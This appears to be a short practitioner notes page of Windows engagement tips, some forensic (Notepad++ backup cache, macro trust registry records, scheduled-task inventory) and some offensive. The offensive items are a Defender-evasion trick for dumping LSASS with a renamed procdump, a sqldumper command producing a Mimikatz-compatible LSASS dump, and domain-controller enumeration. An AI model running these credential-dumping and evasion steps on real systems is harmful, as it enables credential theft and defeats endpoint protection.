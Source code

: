 ```yaml
---
title: "Defensive Notes" 
layout: "post"
---
```


Some notes and tricks that helped me during engagement


# 1) Notepad cache
```powershell
[lazy]People like me use __Notepad++__ as a note-taking thing. We create a 'new', then never get around to saving them.

They get cached here:
C:\Users\{username}\AppData\Roaming\Notepad++\backup
```

# 2) Procdump.exe 

```powershell
If you rename __procdump.exe to __dump64.exe__ and place it in the "C:\Program Files (x86)\Microsoft Visual Studio\*" folder, you can bypass Defender and dump __LSASS__.
```

# 3) Malicious Macro Enabled

```powershell
How to prove malicious macro was enabled & clicked? 👀 #DFIR 

HKEY_LOCAL_MACHINE\USERDAT\Software\Microsoft\Office\<VERS>\<PROGRAM>\Security\Trusted Documents\TrustRecords 

Look ONLY for values where last four bytes are "FF FF FF 7F". 

These files had macros enabled
```


# 4) SQldumper LSASS


```powershell
0x01100:40 flag will create a Mimikatz compatible dump file.

sqldumper.exe 540 0 0x01100:40

Usecase: Dump LSASS.exe to Mimikatz compatible dump using PID.
```

# 5) Powershell domain control enumerations

```powershell
powershell detect domain controller 

$F = [system.directoryservices.activedirectory.Forest]::GetCurrentForest();$F.domains | ForEach-Object {$_.DomainControllers} | ForEach-Object {$_.Name + " " + $_.IPAddress}
```

# 6) Document all tasks in task scheduler
	```powershell
	$outcsv = "c:\temp\taskdef.csv" ; Get-ScheduledTask | ForEach-Object { [pscustomobject]@{ Name = $_.TaskName; Path = $_.TaskPath;LastResult = $(($_ | Get-ScheduledTaskInfo).LastTaskResult);NextRun = $(($_ | Get-ScheduledTaskInfo).NextRunTime);Status = $_.State;Command = $_.Actions.execute;Arguments = $_.Actions.Arguments }} |Export-Csv -Path $outcsv -NoTypeInformation -Force
	```